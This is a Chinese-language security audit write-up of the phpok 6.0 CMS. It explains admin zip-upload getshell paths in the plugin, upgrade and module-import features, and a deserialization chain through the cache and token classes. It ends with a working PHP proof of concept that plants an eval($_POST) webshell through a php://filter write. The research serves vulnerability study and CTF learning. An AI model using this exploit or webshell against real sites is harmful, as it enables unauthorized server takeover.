# PHP代码审计—phpok6.0

Author: H3rmesk1t

Data: 2022.03.15

# 前言
看到有师傅说是西湖论剑线下赛出了`phpok6.0`的题(利用前台反序列化漏洞`getshell`). 想到之前自己简单测试过该版本`phpok6.0`的后台文件上传的功能点, 总的来说就是不安全的`unzip`操作. 这里一起总结一下.

<div align=center></div>

# 文件上传 GetShell
## 漏洞简介
文件上传, 顾名思义就是上传文件的功能行为, 之所以会被发展为危害严重的漏洞, 是因为程序没有对提交的数据进行检验或者过滤不严, 导致可以直接恶意文件或者提交修改过的数据绕过扩展名的检验. 文件上传漏洞是漏洞中最为简单猖獗的利用形式, 一般只要能上传获取地址, 可执行文件被解析就可以获取系统`WebShell`.

## 常见上传点
文件上传漏洞的常见上传点有:
 - 上传头像
 - 上传相册
 - 上传插件
 - 上传附件
 - 添加文章图片
 - 前台留言资料上传
 - 编辑器文件上传
 - ......

## 漏洞点
### 插件中心
导出一个已安装的插件, 接着修改一下文件的名字以及添加恶意代码, 再本地上传插件, 访问上传后的恶意文件即可`getshell`.

<div align=center></div>

<div align=center></div>

<div align=center></div>

抓包看看请求的内容: `/phpok6/admin.php?c=upload&f=zip&PHPSESSION=9ff1mj7tdjnnru3uahmdfg6nh5&id=WU_FILE_0&name=shell.zip&type=application/x-zip-compressed&lastModifiedDate=Tue+Mar+15+2022+12:20:22+GMT+0800+(中国标准时间)&size=10022`

在`phpok`框架中`c`是控制器, `f`是方法, 且相关代码都在`framework`文件夹下面. 因此跟进`framework/admin/upload_control.php`中的`zip_f`方法.

```php
public function zip_f()
{
    $rs = $this->lib('upload')->zipfile('upfile');
    if($rs['status'] != 'ok'){
        $this->json($rs['error']);
    }
    $this->json($rs['filename'],true);
}
```

可以看到`zip_f`方法会调用到`framework/libs/upload.php`中的`zipfile`方法, 可以看到这里只是做了`filemax`的检测和文件类型的检测, 接着调用`_upload`方法, 由于`zip`属于可上传文件的后缀名并且不会对压缩包中的内容做一个恶意检测, 因此可以正常上传并且解压, 恶意的`PHP`文件成功保存下来.

```php
public function zipfile($input,$folder='')
{
    if(!$input){
        return array('status'=>'error','content'=>P_Lang('未指定表单名称'));
    }
    //如果未指定存储文件夹，则使用
    if(!$folder){
        $folder = $this->dir_cache;
    }
    $this->cateid = 0;
    $this->set_dir($folder);
    $this->set_type('zip');
    $this->cate = array('id'=>0,'filemax'=>104857600,'root'=>$folder,'folder'=>'/','filetypes'=>'zip');
    if(isset($_FILES[$input])){
        $rs = $this->_upload($input);
    }else{
        $rs = $this->_save($input);
    }
    if($rs['status'] != 'ok'){
        return $rs;
    }
    $rs['cate'] = $this->cate;
    return $rs;
}
```

### 程序升级
按照同样的思路, 在`framework/admin`文件夹中存在一个`update_control`文件, 其中也有`zip_f`方法.

<div align=center></div>

在后台存在一个程序升级的功能, 其中有一个压缩包升级, 抓包查看调用的控制器和方法, 正好对应`update_control`文件中的`zip_f`方法.

<div align=center></div>

按照插件中心的压缩包文件上传`getshell`的方法, 程序升级中的压缩包升级功能成功`getshell`.

<div align=center></div>

<div align=center></div>

<div align=center></div>

### 模块管理
依旧还是抓住`zip`上传的点, 找到后台的模块管理功能, 先导出一个已有模块, 发现压缩包中只有`xml`文件, 尝试在压缩包中加入`php`文件, 接着导入模块, 这里会显示`导入模块失败, 请检查解压缩是否成功`, 但是此时在`_cache`文件夹中会有解压后的文件夹, 且文件夹和文件名字不会变, 因此当目标网站`_cache`文件夹具有访问权限并且后台并未清空缓存时, 可以利用该点进行`getshell`.

<div align=center></div>

<div align=center></div>

抓包跟一下`url`, 分别为:

```php
/phpok6/admin.php?c=upload&f=zip&PHPSESSION=cb43j0h4epcfr589foaphmk2p5&id=WU_FILE_0&name=wdnmd.zip&type=application/x-zip-compressed&lastModifiedDate=Tue+Mar+15+2022+15:23:16+GMT+0800+(中国标准时间)&size=1244 HTTP/1.1

/phpok6/admin.php?c=module&f=import&zipfile=_cache/0eb054f91b4f2a92.zip&_=1647333917744
```

跟进`framework/admin/module_control.php`中的`import_r`方法, 可以看到虽然后面会抛出`error`, 但是会先解压`_cache`目录下的压缩包再进行判断, 因此在`_cache`中会保留解压后的文件内容, 故可以利用`_cache`中解压后的文件进行`getshell`.

```php
public function import_f() {
    $zipfile = $this->get('zipfile');
    if(!$zipfile){
        $this->lib('form')->cssjs(array('form_type'=>'upload'));
        $this->addjs('js/webuploader/admin.upload.js');
        $this->view('module_import');
    }
    if(strpos($zipfile,'..') !== false){
        $this->error(P_Lang('不支持带..上级路径'));
    }
    if(!file_exists($this->dir_root.$zipfile)){
        $this->error(P_Lang('ZIP文件不存在'));
    }
    $this->lib('phpzip')->unzip($this->dir_root.$zipfile,$this->dir_cache);
    if(!file_exists($this->dir_cache.'module.xml')){
        $this->error(P_Lang('导入模块失败，请检查解压缩是否成功'));
    }
}
```

<div align=center></div>

<div align=center></div>

# 反序列化 GetShell
通过历史漏洞可以知道在`framework/engine/cache.php`中存在反序列化操作, 其会调用`save`方法.

```php
public function __destruct()
{
    //echo "<pre>".print_r($this->key_list,true)."</pre>";
    //echo "<pre>".print_r(count($this->key_list),true)."</pre>";
    $this->save($this->key_id,$this->key_list);
    $this->expired();
}
```

跟进`save`方法, 发现存在`file_put_contents`方法, 且该函数的第一个参数可控, 第二个参数部分可控. 然后这里需要绕过`<?php exit();?>`, 这也是`CTF`中的老考点了, 详细可以看[谈一谈php://filter的妙用](https://www.leavesongs.com/PENETRATION/php-filter-magic.html).

```php
public function save($id,$content='')
{
    if(!$id || $content === '' || !$this->status){
        return false;
    }
    $this->_time();
    $content = serialize($content);
    $file = $this->folder.$id.".php";
    file_put_contents($file,'<?php exit();?>'.$content);
    $this->_time();
    $this->_count();
    return true;
}
```

接着找一个反序列化的点, 这里跟进`framework/libs/token.php`中的`decode`方法, 这个函数是某个密文的解密方法并且在解密后进行了反序列化操作, 如果可以将序列化后的类通过对应的`encode`方法来生成`decode`函数的解密的格式, 那么就可以反序列化该类.

```php
public function decode($string)
{
    if($this->encode_type == 'public_key'){
        return $this->decode_rsa($string);
    }
    if(!$this->keyid){
        return false;
    }
    $string = str_replace(' ','+',$string);
    $keyc = substr($string, 0, $this->keyc_length);
    $string = base64_decode(substr($string, $this->keyc_length));
    $cryptkey = $this->keya.md5($this->keya.$keyc);
    $rs = $this->core($string,$cryptkey);
    $chkb = substr(md5(substr($rs,26).$this->keyb),0,16);
    if((substr($rs, 0, 10) - $this->time > 0) && substr($rs, 10, 16) == $chkb){
        $info = substr($rs, 26);
        return unserialize($info);
    }
    return false;
}
```

在`encode`部分和`decode`部分均涉及到了一个`keyid`, 这里跟进相关部分代码, 这里可以利用`index.php`来作为`keyid`的计算部分.

```php
public function keyid($keyid='')
{
    if(!$keyid){
        return $this->keyid;
    }
    $this->keyid = strtolower(md5($keyid));
    $this->config();
    return $this->keyid;
}

private function config()
{
    if(!$this->keyid){
        return false;
    }
    $this->keya = md5(substr($this->keyid, 0, 16));
    $this->keyb = md5(substr($this->keyid, 16, 16));
}
```

对应的`POC`如下:

```php
<?php

require  "./token.php";
require  "./file.php";

class cache{
    protected $key_id='suanve';
    protected $key_list='aaaaaIDw/cGhwIGV2YWwoJF9QT1NUW29zd29yZF0pOz8+';
    protected $folder='php://filter/write=string.strip_tags|convert.base64-decode/resource=';
}
//echo base64_encode(serialize(new cache()));


$token = new token_lib();
$file = new file_lib();
$keyid = $file->cat("./index.php");
$token->keyid($keyid);

echo $token->encode(new cache());
```